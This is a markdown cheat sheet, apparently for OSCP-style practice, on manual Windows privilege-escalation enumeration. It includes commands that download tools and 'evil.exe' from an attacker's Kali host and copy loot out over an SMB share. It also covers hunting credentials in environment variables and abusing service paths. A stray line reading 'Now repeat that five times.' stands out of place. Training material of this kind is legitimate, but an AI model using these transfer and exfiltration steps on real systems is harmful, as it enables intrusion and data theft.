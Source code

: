 # Windows Enumeration 

I will do **Manual Enumeration** before running WinPEAS. 

Now repeat that five times.

Many OSCP boxes are designed in a way where WinPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a Windows host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc.exe (which you need to transfer from your kali) or a msfvenom payload.

## How to transfer files from Kali to Windows

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using C:\Users\Public or if you land a shell as a user, you can use that user's directory.

```cmd
certutil.exe -urlcache -split -f http://<kali ip>/<file you want to transfer> <outputfilename>
```

The powershell equivalent is:

```powershell
iwr -uri http://<kali ip>:<port>/<file> -OutFile <outfile name>
```

Another fun way of doing it creating a smbshare on kali and then mounting it. This allows for bidrectional data transfers so you can exfiltrate files out of the target.

```bash
# on your kali
# your share name can be anything you like. If you want the cwd to be the share path, you can just put . I usually set up with a username and password as sometimes Windows does not allow you to mount an authentication-less share

impacket-smbserver -smb2support <share name> <local share path> -username kali -password kali

# example. This creates a share called exfil with the path being the directory where impacket-smbserver is being run

impacket-smbserver -smb2support exfil . -username kali -password kali

```

On your windows machine

```cmd
# mounts your exfil share on y drive and pass in kali:kali credentials

net use y: \\<kali ip>\exfil kali /user:kali
```
now you can copy files to and fro
```cmd
#copy loot.txt from target to your kali

copy loot.txt \\<kali ip>\exfil\loot.txt
```
copy evil.exe from kali to your target
```cmd
copy \\<kali ip>\exfil\evil.exe evil.exe
```


## Checking for the Quick Wins

Check the following:

1) Privileges and groups for your current user

- If SeImpersonatePrivilege is there, thank your lucky stars. Check the system arch with systeminfo and then upload the relevant potato exploit to elevate

- If SeShutDownPrivilege is there, note it down. Your PE path may involve service or scheduled task manipulation.

- Dont worry if it says disabled. The more important thing is that the Privilege is there.

- For groups, you are checking for any non default windows groups. Could be something like HelpDesk. Note things like 'Remote Management Users' (WinRM), 'Remote Desktop Users' (RDP) or the easy win 'Backup Operators'.

- If your user is part of 'BackUp Operators', your user can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer.

```cmd
whoami /priv

whoami /groups
```

2) Environment Variables. Sometimes there are hardcoded stuff like creds in your env so give it a quick check

```cmd
SET
```

3) Systeminfo

- Check the OS version and note the patches. If it looks ancient like Windows 7 or Windows Server 2012 or earlier, a kernel exploit like EternalBlue might be the solution. That said, I wont expect to see this in OSCP though you may see it for PG boxes. 

```cmd
systeminfo
```

4) Check the C:\Users directory. This helps you enumerate users and see (or not see) what access you have to their folders as the current user. 

- Note down any files that look out of place and exfiltrate them if required.

```cmd

cd C:\Users

tree /f /a  #this lists the current path in a recursive manner and also reveals hidden files and directories. This is a GREAT command. use this often

```

5) Now check the C:\ root directory. See anything that is NOT Users,Windows,Program Files, Program Files (x86)? *P.S you can safely ignore output.txt. That seems to be some kind of logging for OffSec boxes*

- If there is, investigate the folder. Are there files inside? Can you write into that folder? Can you edit the files? Can you see the contents of the files?

6) If there is a webserver on the host, can you find the root of that webserver and check for config files? 

7) Are there local services? *You can ignore port 53 if you see it* If there are, note it down. If it looks interesting, transfer a ligolo agent and set it up for you to access the local service. 

```cmd
netstat -ano

# On Powershell

Get-Process <PID of interest from the netstat>

```

8) Check for Scheduled Tasks

Not always effective because your current users may not have permissions to view higher access level scheduled tasks so this may not return anything useful. Still no harm taking a quick look at it

```cmd
schtasks /query /fo LIST /v
```

This will output a lot of things. But the relevant stuff will be right at the top. The rest are default stuff. If you dont see anything interesting, it may be that there is nothing there or there is something there that is being run by a higher-priv user and you just dont have the rights to see it.

9) Check for unquoted Service Paths

We can use this when we can write to a service's main or subdirectory but cannot replace files

- Each service maps to an exe file that will be run when the service is started

- the vulnerability lies in paths to the exe where there is one or more spaces and is not enclosed within quotes

- When a service is started and a process is created, the CreateProcess function is used.  The function starts interpreting the path from left to right until it reaches a space and then it appends .exe and the rest is treated as arguments

```cmd
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """

# if you find any services that dont look like default services (you need to do more boxes and then you will know what is not normal)
# check if our current user can start and stop the service

Start-Service SusService

Stop-Service SusService
```

Well that is about it. If there is nothing so far, it is likely to be related to services or scheduled tasks or some sensitive file buried in the filesystem which winpeas can do for you.
